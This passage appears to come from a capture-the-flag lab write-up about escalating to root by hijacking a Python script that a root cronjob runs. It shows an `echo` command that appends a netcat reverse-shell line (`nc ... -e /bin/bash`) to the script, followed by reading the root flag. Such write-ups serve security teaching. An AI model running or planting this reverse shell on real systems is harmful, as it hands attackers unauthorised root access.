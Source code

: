 I did *not* do this while editing, made a typo and ended up having to reset the box. <br>

We can't write it to `/tmp`, since that gets cleaned out with our script. <br>
We can't write it to `/opt`, since we don't have permission. <br>
`/dev/shm` is a good location. We have write access, and it is cleared upon reboot.

The original, unedited script contains a nice example on how to run `bash` commands from within python. <br>

````
import os
import sys

...

os.system('BASH COMMANDS')
````

We can use this method with our own, shell-spawning bash commands.
Append the command for the simple `nc` revshell onto `tmp.py` using `echo` and `>>`


* `echo "os.system('nc local.machine.ip.addr PORTNUM -e /bin/bash')" >> tmp.py`


<br>
![alt1](https://i.imgur.com/A3yVjgI.png)
<br>

Make sure your `PORTNUM` matches the listener.

<br>
![alt2](https://i.imgur.com/8gOPlvx.png)
<br>



With the trap set, all we have to do is wait for the cronjob to run.<br>
If the process takes more than 5-10 minutes, you have done something wrong.
Start by checking for typos, incorrect IPs, ports, etc.


#### Soon...

<br>
![A23](https://i.imgur.com/KwNR7Xl.png)
<br>


The root shell pops open in our 2nd listener!

From here we can do as we please, starting with the capture of the root flag.

`cat /root/root.txt`



## 7. Conclusion
